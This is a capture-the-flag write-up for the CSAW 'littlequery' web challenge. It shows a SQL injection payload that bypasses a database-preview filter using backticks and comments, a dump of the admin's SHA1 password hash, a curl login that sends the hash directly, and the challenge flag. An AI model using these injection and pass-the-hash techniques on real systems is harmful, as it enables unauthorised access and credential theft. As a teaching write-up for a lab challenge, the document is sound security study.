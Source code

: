 # Challenge

I've got a new website for BIG DATA analytics!

http://littlequery.chal.csaw.io

# Walkthrough/Solution

Viewing the source of the index page gave us a hint to this challenge:

```
<!--
<div class="col-md-4">
    <h2>For Developers</h2>
    <p>Check out our <a href="/api/db_explore.php">API</a></p>
</div>
-->
```
The php file `db_explore.php` allows us to specify a few modes to view information:

```
http://littlequery.chal.csaw.io/api/db_explore.php
Must specify mode={schema|preview}

http://littlequery.chal.csaw.io/api/db_explore.php?mode=schema
{"dbs":["littlequery"]}

http://littlequery.chal.csaw.io/api/db_explore.php?mode=schema&db=littlequery
{"tables":["user"]}

http://littlequery.chal.csaw.io/api/db_explore.php?mode=schema&db=littlequery&table=user
{"columns":{"uid":"int(11)","username":"varchar(128)","password":"varchar(40)"}}
```
However, it seemed that some filters are put in place to prevent us to read the contents of the database:
```
http://littlequery.chal.csaw.io/api/db_explore.php?mode=preview&db=littlequery&table=user
Database 'littlequery' is not allowed to be previewed.
```
After some experimentation, I found a working payload and the credentials of the user are shown:
```
http://littlequery.chal.csaw.io/api/db_explore.php?mode=preview&db=littlequery`/*&table=*/.`user
[{"uid":"1","username":"admin","password":"5896e92d38ee883cc09ad6f88df4934f6b074cf8"}]
```
Notice that there is a javascript that computes the input password to SHA1 before validating it at the backend:
```
http://littlequery.chal.csaw.io/js/login.js

$(".form-signin").submit(function () {
    var $password = $(this).find("input[type=password]");
    $password.val(CryptoJS.SHA1($password.val()).toString());
});
```
We can pass the credentials through `curl` so that the raw password is sent to the server directly.
```
curl -d ‘username=admin&password=5896e92d38ee883cc09ad6f88df4934f6b074cf8’ -X POST ’http://littlequery.chal.csaw.io/login.php' 
<rest of the headers are cut off for brevity>
```
With that, the flag is `flag{mayb3_1ts_t1m3_4_real_real_escape_string?}`

# Learning outcome
1. Bypassing filters applied on SQL statements
